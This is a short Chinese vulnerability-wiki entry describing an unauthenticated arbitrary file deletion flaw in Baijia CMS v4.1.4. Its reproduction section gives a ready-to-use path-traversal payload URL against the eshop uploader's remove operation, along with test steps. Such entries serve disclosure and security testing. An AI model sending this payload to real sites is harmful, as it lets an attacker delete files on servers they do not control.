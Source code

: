百家cms v4.1.4 任意文件删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # payload
    # 不需要后台权限
    # 只能删除文件，不能删除文件夹

    http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt

设置里需要选择本地，否则删除的不是本地文件

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId24.png)

先在根目录下创建qwe.txt作为测试文件

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId25.png)

访问payload

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId26.png)

查看文件，已经被删除

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
